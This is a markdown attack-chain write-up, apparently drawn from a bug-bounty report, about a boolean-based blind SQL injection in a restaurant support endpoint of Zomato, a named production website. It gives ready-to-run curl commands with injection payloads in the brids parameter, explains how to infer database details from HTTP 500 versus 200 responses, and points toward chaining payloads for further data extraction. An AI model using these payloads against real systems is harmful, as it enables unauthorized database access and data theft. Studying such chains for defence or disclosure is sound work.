

# Boolean-Based Blind SQL Injection in Zomato's Restaurant Support Endpoint

Multi-stage attack chain demonstrating a complete workflow for exploiting a boolean-based blind SQL injection in Zomato's web application to infer sensitive database details without direct output.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-boolean-sqli-test]]

### Target Environment

- Web platform with PHP backend
- MySQL database service
- Access to POST endpoint /█████.php?res_id={RES_ID}

### Initial Access Requirements

- Valid session cookie (PHPSESSID) for authenticated requests
- Network access to www.zomato.com
- No prior privilege escalation needed; public-facing endpoint

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Vulnerable-Endpoint-for-SQLi]]

**Objective**: Locate the injectable parameter in the restaurant support endpoint to set up the SQL injection attack.

**Instructions**: Target the POST request to /█████.php?res_id={RES_ID} with action=show_support_breakups and brids as a JSON array. Replace {RES_ID} with a valid restaurant ID and {SESSION_COOKIE} with an active PHPSESSID.

**Expected Output**: Normal 200 response confirming endpoint accessibility.

**Success Indicators**:
- Endpoint responds without errors
- JSON array in brids parameter is accepted

### Step 2: Craft and Send SQL Injection Payload
procedure: [[procedures/Craft-Boolean-SQLi-Payload-in-JSON-Parameter]]

**Objective**: Inject a boolean condition into the brids parameter to manipulate SQL query logic using MySQL functions.

**Instructions**: Use [[commands/curl-boolean-sqli-test]] to send a payload testing if the MySQL version starts with '5':

```bash
curl -X POST "https://www.zomato.com/█████.php?res_id={RES_ID}" \
  -H "Host: www.zomato.com" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:58.0) Gecko/20100101 Firefox/58.0" \
  -H "Accept: */*" \
  -H "Accept-Language: nl,en-US;q=0.7,en;q=0.3" \
  -H "Accept-Encoding: gzip, deflate" \
  -H "Cookie: PHPSESSID={SESSION_COOKIE};" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "action=show_support_breakups&brids=[\"')/**/OR/**/MID(0x352e362e33332d6c6f67,1,1)/**/LIKE/**/5/**/%23\"]"
```

Modify the hex-encoded string (0x352e362e33332d6c6f67 decodes to '5.6.3-log') for different tests.

**Expected Output**: HTTP 500 if condition is true (query error), HTTP 200 if false.

**Success Indicators**:
- Payload injection without syntax rejection
- Differential responses observed

### Step 3: Observe Response Differences to Confirm Injection
procedure: [[procedures/Confirm-SQL-Injection-via-Response-Differences]]

**Objective**: Validate the injection by comparing responses for true/false conditions to infer database details.

**Instructions**: Repeat the payload from Step 2 but change LIKE '5' to LIKE '4' for a false condition using [[commands/curl-boolean-sqli-test]]:

```bash
curl -X POST "https://www.zomato.com/█████.php?res_id={RES_ID}" \
  -H "Host: www.zomato.com" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:58.0) Gecko/20100101 Firefox/58.0" \
  -H "Accept: */*" \
  -H "Accept-Language: nl,en-US;q=0.7,en;q=0.3" \
  -H "Accept-Encoding: gzip, deflate" \
  -H "Cookie: PHPSESSID={SESSION_COOKIE};" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "action=show_support_breakups&brids=[\"')/**/OR/**/MID(0x352e362e33332d6c6f67,1,1)/**/LIKE/**/4/**/%23\"]"
```

Analyze status codes to confirm boolean behavior.

**Expected Output**: HTTP 200 for false condition (LIKE '4'), confirming normal execution when condition fails.

**Success Indicators**:
- 500 status for true condition (e.g., version starts with 5)
- 200 status for false condition
- Ability to chain payloads for further disclosure

## Attack Chain Summary

### Key Achievements

1. Identified injectable JSON parameter in restaurant endpoint
2. Crafted boolean payload using MID and LIKE for blind inference
3. Confirmed vulnerability via HTTP status differentials, enabling MySQL version disclosure and potential further data extraction

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
